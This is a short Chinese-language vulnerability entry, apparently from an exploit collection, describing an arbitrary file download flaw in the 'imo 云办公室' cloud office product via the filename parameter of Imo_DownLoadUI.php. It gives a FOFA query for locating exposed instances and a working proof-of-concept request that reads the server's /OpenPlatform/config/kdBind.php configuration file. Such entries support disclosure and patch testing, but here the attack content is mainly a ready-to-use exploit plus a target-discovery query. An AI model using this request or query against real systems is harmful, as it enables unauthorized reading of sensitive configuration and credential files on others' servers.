 # imo 云办公室 Imo_DownLoadUI.php 任意文件下载漏洞

## 漏洞描述

imo 云办公室 由于 /file/Placard/upload/Imo_DownLoadUI.php 页面 filename 参数过滤不严，导致可以读取系统敏感文件。

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## FOFA

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0-20220313162942240.png)

验证POC

```javascript
/file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php
```

![img](../../../.vuepress/public/img/1645878129060-d2500f94-aad9-48fd-9202-9b618cc0f886.png)